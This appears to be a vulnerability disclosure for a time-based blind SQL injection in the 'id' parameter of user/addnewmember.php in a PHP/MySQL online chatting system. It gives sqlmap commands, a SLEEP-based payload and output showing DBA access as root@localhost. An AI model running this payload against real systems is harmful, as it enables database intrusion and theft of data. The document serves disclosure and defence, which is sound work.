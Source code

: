 # Online Chatting System using PHP/MySQL - SQL injection vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/14224/online-chatting-system-using-phpmysql.html
# Software Link
+ https://www.sourcecodester.com/download-code?nid=14224&title=Online+Chatting+System+using+PHP%2FMySQL
# Overview
+ Online Chatting System using PHP/MySQL SQLi POC is susceptible to serious security vulnerabilities caused by insufficient protection of the "id" parameter in the 'user/addnewmember.php' file. This vulnerability may be used to inject malicious SQL queries, resulting in unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ Online Chatting System using PHP/MySQL V1.0
+ Vulnerable File: user/addnewmember.php
+ Parameter Names: id
+ Attack Type: Remote
# Description
+ The lack of proper input validation and sanitization on the 'id' parameters allows an attacker to craft SQL injection queries, gaining unauthorized access to the database.


# Proof of Concept (PoC) : 
+ `sqlmap -u 'http://www.onlinechatting.com:8089/user/addnewmember.php?id=1' -p 'id' --data="user=1"--method='POST'`

```
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1371 FROM (SELECT(SLEEP(5)))cMTO) AND 'agsQ'='agsQ
---
```
+ `sqlmap -u 'http://www.onlinechatting.com:8089/user/addnewmember.php?id=1' -p 'id' --data="user=1"--method='POST' --is-dba --current-user`

```
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1371 FROM (SELECT(SLEEP(5)))cMTO) AND 'agsQ'='agsQ
---
[22:11:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.0.12, Nginx 1.11.5
back-end DBMS: MySQL >= 5.0.12
[22:11:28] [INFO] fetching current user
[22:11:28] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[22:16:44] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[22:16:44] [CRITICAL] unable to connect to the target URL ('Invalid argument'). sqlmap is going to retry the request(s)
[22:16:56] [INFO] adjusting time delay to 2 seconds due to good response times
root@localhost
current user: 'root@localhost'
[22:20:13] [INFO] testing if current user is DBA
[22:20:13] [INFO] fetching current user
current user is DBA: True
```
![image](https://github.com/xuanluansec/vul/blob/main/vul/img/13.png)
